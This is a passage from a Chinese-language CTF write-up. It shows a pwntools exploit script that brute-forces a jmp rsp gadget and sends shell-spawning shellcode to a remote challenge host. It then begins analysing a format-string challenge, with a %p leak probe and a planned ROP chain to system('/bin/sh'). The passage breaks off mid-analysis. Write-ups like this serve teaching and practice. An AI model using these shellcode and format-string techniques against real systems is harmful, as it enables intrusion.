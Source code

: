 - ```python
  from pwn import *
  
  jmp_rsp_base=0x40064b+0x64b-0x537-0x40 #为啥要减0x40,不待算了随便写的
  DEBUG=0
  
  for i in range(1,100):
      if DEBUG==1:
          sh=process('/mnt/hgfs/ctf/pwnstack')
      else:
          sh=remote('ha1cyon-ctf.fun',port)
      
      context.log_level='info'
      context(os='linux',arch='amd64')
      log.info("this is:"+str(i))
      
      jmp_rsp=jmp_rsp_base+i
      
      shellcode=asm(shellcraft.sh())
      payload=p64(0x9090909090909090)*5+shellcode+(0x60-len(shellcode))*'a'+p64(jmp_rsp)+p64(0xe4ff90c48348)
      print(shellcode)
      sh.sendafter('shellcode:\n',payload)
      
      sh.interactive()
  ```
  
  


### 3.format2

- 首先`checksec`

  ![image-20200422204504696](D:\文档\音视频图片\照片图片\typoraphoto\NPUCTFWP\image-20200422204504696.png)

  开启了`NX堆栈不可执行`，`PIE地址随机化`，还有`Full RELRO`，无法修改got表，没有开`canary`保护

- ida打开分析

  ![image-20200422210644228](D:\文档\音视频图片\照片图片\typoraphoto\NPUCTFWP\image-20200422210644228.png)

  格式化字符串溢出没跑了，双击`buf`可以看到`buf`在**bss段**，也就是说，循环读入0x64字节数据到`bss`段中，然后`printf`输出；如果输入等于`"66666666"`，跳出循环。

- 漏洞点找到了，这个时候思路大概是：

  - 利用printf溢出数据，such as：main返回地址，got表函数地址
  - 通过`LibcSearcher`计算得到libc基址，system函数地址和/bin/sh地址
  - 通过`ROPgadget`得到`pop rdi;ret;`地址
  - 构造ROP链，最后发送`"66666666"`，程序跳出循环，main返回到`system`函数，get shell
  
- 但是buf不在栈内，在bss段中，这就意味着没有办法像之前一样通过输入地址到栈中来实现任意读写，这个时候我们看向**printf 成链攻击**

- gdb调试

  - 输入`%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p`
  
- ![image-20200422214432013](D:\文档\音视频图片\照片图片\typoraphoto\NPUCTFWP\image-20200422214432013.png)
  
  - 可以看到，前几个是传参寄存器的值
    
  
  第六个(`%6$p`)指向main函数之后的`__libc_csu_init()`，可以溢出该数据，然后经过计算得到buf、pop_rdi_ret的实际地址
  
  ```